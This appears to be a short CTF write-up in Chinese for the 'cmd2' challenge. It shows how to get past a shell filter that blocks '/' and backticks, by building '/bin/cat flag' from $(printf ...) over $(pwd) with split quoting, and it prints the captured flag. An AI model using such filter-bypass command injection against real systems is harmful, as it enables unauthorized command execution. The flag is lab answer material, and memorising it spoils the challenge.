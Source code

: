 ## Pwn
具體解法和前一題差不多，只是這次 `filter()` 會擋 `/`, `backtick`

目標指令：
```
./cmd2 '/bin/cat f""lag'
```

但 `/` 不能輸入，所以我們要找其他方法產生 `/` 這個字元。

有趣的是 `filter()` 雖然擋了 backtick，但沒有擋 `$()`。

使用 shell built-in command "printf" 可以從 $(pwd) 切出一個 `/`

```
cmd2@prowl:~$ ./cmd2 'echo $(printf %.1s $(pwd))'
echo $(printf %.1s $(pwd))
/
```

想辦法用這樣的 command substitution + printf string formatting 拼湊出目標指令即可
```
cmd2@prowl:~$ ./cmd2 '$(printf "%.1sbin%.1scat" $(pwd) $(pwd)) f""lag'
$(printf "%.1sbin%.1scat" $(pwd) $(pwd)) f""lag
FuN_w1th_5h3ll_v4riabl3s_haha
```
